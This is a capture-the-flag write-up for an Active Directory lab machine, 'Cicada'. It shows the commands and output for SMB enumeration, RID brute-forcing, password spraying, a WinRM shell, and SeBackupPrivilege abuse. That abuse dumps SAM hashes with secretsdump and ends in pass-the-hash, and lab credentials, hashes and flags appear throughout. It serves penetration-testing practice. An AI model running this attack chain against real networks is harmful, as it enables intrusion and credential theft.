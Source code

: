 ```yaml
---
sticker: emoji//1fab0
---
```


# CICADA

## ENUMERATION

***

### OPEN PORTS

***

| PORT                        | SERVICE       |
| --------------------------- | ------------- |
| 53/tcp                      | domain        |
| 88/tcp                      | kerberos-sec  |
| 135/tcp                     | msrpc         |
| 139/tcp                     | netbios-ssn   |
| 389/tcp                     | ldap          |
| 445/tcp                     | microsoft-ds? |
| 464/tcp                     | kpasswd5?     |
| 593/tcp                     | ncacn\_http   |
| 636/tcp                     | ssl/ldap      |
| 3268/tcp                    | ldap          |
| 3269/tcp                    | ssl/ldap      |
| 5985/tcp                    | http          |
| Let's start reconnaissance. |               |

## RECONNAISSANCE

***

We are facing a AD machine, let's start with some basic SMB enumeration:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116135424.png)

We can use netexec to perform a simple check on SMB and WINRM:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116135538.png)

We can attempt to log into SMB without the authentication process using `smbclient -NL IP`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116135823.png)

We found interesting shares, let's check out `HR`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116135909.png)

We find a `Notice from HR.txt` file, let's download it and check it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116140031.png)

We got a default password, my guess would be we need to perform a basic brute force to enumerate users, this would be in the following way:

```ad-note
`netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute`
```

We get the following output:

```
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)     
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)               
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)                       
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)                         
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)     
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)      
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

## EXPLOITATION

***

Let's store all the usernames in a file and perform password spraying:

`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

![](gitbook/cybersecurity/images/Pasted%20image%2020250116140940.png)

We found the user, these are the credentials:

```ad-note

`michael.wrightson`:`Cicada$M6Corpb*@Lp#nZp!8`

```

We can search for more privileged users:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116141256.png)

We found an account with the following credentials:

```ad-note
`david.orelious`:`aRt$Lp#7t*VQ!3`
```

Let's check the shares this account has access to:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116141414.png)

We can now read the `DEV` share, let's take a look at it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116141607.png)

Found a `Backup_script.ps1` file, let's view the contents:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116141718.png)

Found more credentials:

```ad-note

`emily.oscars`:`Q!3@Lp#M6b*7t*Vt`
```

Let's check if we are able to get a shell with those credentials using `evil-winrm`:

```ad-success
`evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'`


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250116142124.png)

```

We can read `user.txt` and begin with privilege escalation:

```ad-note
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250116142223.png)

User: `74b2598907182ac31cca52c79b20eb0a`
```

## PRIVILEGE ESCALATION

***

In order to begin with privilege escalation, we can start enumerating our privileges:

`whoami /priv`

![](gitbook/cybersecurity/images/Pasted%20image%2020250116142402.png)

We can make use of `SeBackupPrivilege` in order to escalate our privileges, let's use the following PoC:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116142600.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250116142623.png)

But, we can simplify the PoC in the following way:

```ad-summary
1. `reg save hklm\sam sam`
2. `reg save hklm\system system`
3. `download sam`
4. `download system`
5. `impacket-secretsdump LOCAL -sam sam -system sytem`


#### Output
----

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250116144219.png)

And like that, we can get our admin hash.
```

```
impacket-secretsdump LOCAL -sam sam -system system
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Let's log in using Pass the hash:

![](gitbook/cybersecurity/images/Pasted%20image%2020250116144347.png)

And our root flag is the following:

```ad-note

Root: `568e019774b66b875a024dfa590b84dc`
```
